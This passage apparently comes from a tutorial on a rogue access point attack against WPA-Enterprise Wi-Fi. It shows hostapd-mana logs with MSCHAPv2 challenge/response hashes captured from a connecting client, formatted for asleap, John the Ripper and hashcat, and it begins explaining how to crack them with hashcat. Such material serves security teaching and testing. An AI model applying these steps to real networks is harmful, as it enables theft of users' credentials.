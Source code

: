 ```
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: user@realm
MANA EAP EAP-MSCHAPV2 ASLEAP user=user@realm | asleap -C 2e:59:a9:74:b3:37:3e:e8 -R 13:4d:db:1b:af:c8:18:25:51:1a:9d:55:a6:22:90:ef:ad:53:b2:36:bd:5b:7d:33
MANA EAP EAP-MSCHAPV2 JTR | user@realm:$NETNTLM$2e59a974b3373ee8$134ddb1bafc81825511a9d55a62290efad53b236bd5b7d33:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user@realm::::134ddb1bafc81825511a9d55a62290efad53b236bd5b7d33:2e59a974b3373ee8
EAP-MSCHAPV2: Derived Master Key - hexdump(len=16): d8 37 3c 73 e0 71 23 65 a7 34 0d 9d d2 44 0b ee
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: disassociated
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: authenticated
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED e2:3a:88:4b:de:de
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA EAP Identity Phase 0: user@realm
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: user@realm
MANA EAP EAP-MSCHAPV2 ASLEAP user=user@realm | asleap -C 1d:a6:39:8b:1b:6f:c9:fa -R 72:9c:f2:86:45:36:2f:2b:a8:0d:d6:c0:f5:78:e4:96:c0:a2:c2:0d:90:50:5d:60
MANA EAP EAP-MSCHAPV2 JTR | user@realm:$NETNTLM$1da6398b1b6fc9fa$729cf28645362f2ba80dd6c0f578e496c0a2c20d90505d60:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user@realm::::729cf28645362f2ba80dd6c0f578e496c0a2c20d90505d60:1da6398b1b6fc9fa
EAP-MSCHAPV2: Derived Master Key - hexdump(len=16): f1 4a 32 99 fd b8 b9 45 fa 16 28 e3 9a 28 92 10
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: disassociated
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: deauthenticated due to inactivity (timer DEAUTH/REMOVE)
^Cwlan0: interface state ENABLED->DISABLED
wlan0: AP-DISABLED 
nl80211: deinit ifname=wlan0 disabled_11b_rates=0
```

From the above example, we can focus on the lines refering to ``MANA EAP EAP-MSCHAPV2`` [``ASLEAP JTR HASHCAT``].

```
MANA EAP EAP-MSCHAPV2 ASLEAP user=user@realm | asleap -C 3c:c7:4f:bf:a5:a5:4f:10 -R 22:52:fb:36:fc:19:a7:02:ab:9f:39:68:3a:4b:4d:d2:a6:1e:9c:ee:a7:85:ed:e7
MANA EAP EAP-MSCHAPV2 JTR | user@realm:$NETNTLM$3cc74fbfa5a54f10$2252fb36fc19a702ab9f39683a4b4dd2a61e9ceea785ede7:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user@realm::::2252fb36fc19a702ab9f39683a4b4dd2a61e9ceea785ede7:3cc74fbfa5a54f10
```

Seeing that the used EAP authentication methods on this example network are PEAP with MSCHAPV2, the passwords are not immediately retrieved, but captured in hash format. To try and probe them, tools like asleap, John the Ripper and hashcat can be used.

## Hashcat

This section exemplifies how to use hashcat to retrieve the captured hashed password.

By looking at the output ``MANA EAP EAP-MSCHAPV2 HASHCAT | user@realm::::2252fb36fc19a702ab9f39683a4b4dd2a61e9ceea785ede7:3cc74fbfa5a54f10``, we just need to grab the hash ``user@realm::::2252fb36fc19a702ab9f39683a4b4dd2a61e9ceea785ede7:3cc74fbfa5a54f10`` and past it on a file (``"hashcat-pw.txt"`` for example).
